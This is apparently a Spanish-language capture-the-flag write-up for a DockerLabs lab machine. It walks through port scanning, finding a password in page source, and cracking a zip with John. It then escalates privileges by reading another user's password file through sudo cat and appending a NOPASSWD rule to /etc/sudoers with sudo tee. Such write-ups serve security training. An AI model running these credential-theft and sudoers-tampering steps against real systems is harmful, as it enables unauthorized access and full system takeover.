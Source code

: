 **#Maquina: Bashpariencias**

**#Dificultad: Media**🟡

**#Web: dockerlabs.es**

-------------------------------------------------------------------------------------------------------------------------------------------------
**Reconocimiento** 👀

```
nmap -p- --open -sS -sC -sV --min-rate 2500 -n -vvv -Pn 172.18.0.3
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 dc:4c:b6:41:c4:e1:72:c3:7d:a0:ed:ca:0e:7a:bc:54 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJt30YsFN09biMjBeb/CjtFEGOnT0fjLdi1hbnr36McoiRqqFDhZVwgBGbLIMxwJ6PSv5rBH2uCHXqSw0QlyUd8=
|   256 66:61:de:8c:fb:5b:3b:f4:fb:b9:ca:69:b1:ac:6e:2e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN4Xb2tCDj+Wia452jwutmDdphUK2mYCMUJ2+ICKjPnF
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
MAC Address: 02:42:AC:12:00:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tenemos abiertos los puertos 80/http y 22/ssh. Procedemos a verificar el sitio web

![Captura de pantalla 2024-11-07 224408](https://github.com/user-attachments/assets/36a2c101-deaf-4bfe-800b-897c4ee447e3)

Tenemos una pista: **Para aprender hay que ver codigo si o si.** por lo que revisamos el codigo fuente en cada apartado del sitio web y encontramos la contraseña de Rosa en /form.html

![Screenshot_1](https://github.com/user-attachments/assets/661c3d43-996e-4fb5-bd12-96622f1b811d)

Descargamos el contenedor del enlace mega que encontramos en la pagina principal del sitio web

![Screenshot_2](https://github.com/user-attachments/assets/1da68d5f-a4af-42ff-8c09-5391baf9ac76)

Procedemos a montarlo y hacerle un escaneo con Nmap

```
nmap -p- --open -sS -sC -sV --min-rate 2500 -n -vvv -Pn 172.18.0.2
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 64 Apache httpd
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache
|_http-title: Leeme
8899/tcp open  ssh     syn-ack ttl 64 OpenSSH 6.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a3:b0:db:99:e4:c6:a5:b2:5d:2b:36:b6:3e:d0:15:00 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG8ewQjjOoqPtzvXKk1TWfAl1qcSSWPxiXjhtIBNe4nsj15B8XEd/JeFWaJ95ncwxbja1cdarxlmqSLpLZuST5c=
|   256 8f:26:4e:8c:60:28:5c:14:03:b2:45:22:ae:e1:f9:24 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPUJcx6u0eWagjW1BdQxHCwTR1N2CsEUmSLYabG51/J8
MAC Address: 02:42:AC:12:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Identificamos dos puertos abiertos 80/http y 8899/ssh. Miramos el sitio web y es una pagina Apache por defecto, despues de una enumeración de directorios solo encontramos /wordpress pero es un directorio vacío.

![Screenshot_3](https://github.com/user-attachments/assets/68c85f9c-a360-4962-88f1-a7733bb6576f)

```
gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://172.18.0.3 -x php,html,txt
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
[+] Url:                     http://172.18.0.3
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
Starting gobuster in directory enumeration mode
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10671]
/wordpress            (Status: 301) [Size: 312] [--> http://172.18.0.3/wordpress/]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
```

Usaremos las credenciales antes encontradas en este servidor.

```
ssh -p8899  rosa@172.18.0.2
The authenticity of host '[172.18.0.2]:8899 ([172.18.0.2]:8899)' can't be established.
ED25519 key fingerprint is SHA256:cAzGwxFNFaiSQunDgfdHmtfdku3N1QR54OTRKR83fyw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[172.18.0.2]:8899' (ED25519) to the list of known hosts.
rosa@172.18.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sun Jun  9 03:20:54 2024 from 172.23.0.1
rosa@386c2f8d75ba:~$
```

---------------------------------------------------------------------------------------------------------------------------------------------------------

**Explotación**

Una vez dentro del servidor, listamos la carpeta del usuario Rosa y encontramos un directorio con un **-** como nombre, el cual contiene una nota y un archivo .zip que nos vamos a compartir a nuestra maquina local para descifrar la contraseña con John

```
rosa@386c2f8d75ba:/home$ cd rosa/-
rosa@386c2f8d75ba:~/-$ ls
backup_rosa.zip  irresponsable.txt
rosa@386c2f8d75ba:~/-$ cat irresponsable.txt 
Hola rosa soy juan como ya conocemos tus irresposabilidades de otras empresas te voy a dejar mi contraseña en un fichero .zip, captúralo para no volver a ser despedida.
Con cariño pero nos pones a todos en riesgo.
Seguro no trabajaste tambien en Decathlon ....
Un poco de acoso laboral......
rosa@386c2f8d75ba:~/-$ 
```

```
scp -P 8899 rosa@172.18.0.2:/home/rosa/-/backup_rosa.zip /home/kali/Downloads/buscalove
rosa@172.18.0.2's password: 
backup_rosa.zip                                                                                                            100%  215   120.6KB/s   00:00
```

```
zip2john backup_rosa.zip > zip.hash               
ver 1.0 efh 5455 efh 7875 backup_rosa.zip/password.txt PKZIP Encr: 2b chk, TS_chk, cmplen=25, decmplen=13, crc=6A3D5968 ts=1B29 cs=1b29 type=0
                                                                                                                                                             
┌──(root㉿kali)-[/home/kali/Downloads/buscalove]
└─# john zip.hash                                               
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
123123           (backup_rosa.zip/password.txt)     
1g 0:00:00:00 DONE 2/3 (2024-11-08 21:32) 14.28g/s 876900p/s 876900c/s 876900C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

La contraseña del .zip es 123123, lo descomprimimos y encontramos la contraseña del usuario Juan

```
rosa@386c2f8d75ba:~/-$ unzip backup_rosa.zip 
Archive:  backup_rosa.zip
[backup_rosa.zip] password.txt password: 
 extracting: password.txt            
rosa@386c2f8d75ba:~/-$ cat password.txt 
hackwhitbash
rosa@386c2f8d75ba:~/-$
```

Nos conectamos al usuario Juan y continuamos con la escalada con el comando **sudo -l** y vemos que tenemos dos binarios a ejecutar como el usuario Carlos

```
juan@386c2f8d75ba:/$ sudo -l
Matching Defaults entries for juan on 386c2f8d75ba:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User juan may run the following commands on 386c2f8d75ba:
    (carlos) NOPASSWD: /usr/bin/tree
    (carlos) NOPASSWD: /usr/bin/cat
```

**tree**: El comando tree es una herramienta en línea de comandos que muestra una estructura de directorios y subdirectorios en forma de árbol. Esto generará una vista del directorio actual y todos sus subdirectorios y archivos.

```
juan@386c2f8d75ba:/$ sudo -u carlos /usr/bin/tree /home/carlos
/home/carlos
└── password

1 directory, 1 file
juan@386c2f8d75ba:/$ sudo -u carlos /usr/bin/cat /home/carlos/password
chocolateado
```

Obtenemos la contraseña de juan **chocolateado** por lo que procedemos a conectarnos y continuamos la escalada con **sudo -l** y vemos que podemos ejecutar el binario **tee**.

**tee**: El comando tee en Unix/Linux se utiliza para leer desde la entrada estándar y escribir tanto a la salida estándar como a uno o más archivos. Es útil cuando deseas ver la salida de un comando en la terminal y, al mismo tiempo, guardarla en un archivo.

En este caso, aprovechamos el privilegio para escribir en /etc/sudoers y darnos el usuario root.

```
carlos@386c2f8d75ba:/$ sudo -l
[sudo] password for carlos: 
Matching Defaults entries for carlos on 386c2f8d75ba:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User carlos may run the following commands on 386c2f8d75ba:
    (ALL : NOPASSWD) /usr/bin/tee
carlos@386c2f8d75ba:/$ echo 'carlos ALL=(ALL) NOPASSWD: ALL' | sudo /usr/bin/tee -a /etc/sudoers
carlos ALL=(ALL) NOPASSWD: ALL
carlos@386c2f8d75ba:/$ sudo -i
root@386c2f8d75ba:~# whoami
root
root@386c2f8d75ba:~# id
uid=0(root) gid=0(root) groups=0(root)
root@386c2f8d75ba:~#
```

Somos usuario **root** 🥳

Maquina completada ✅
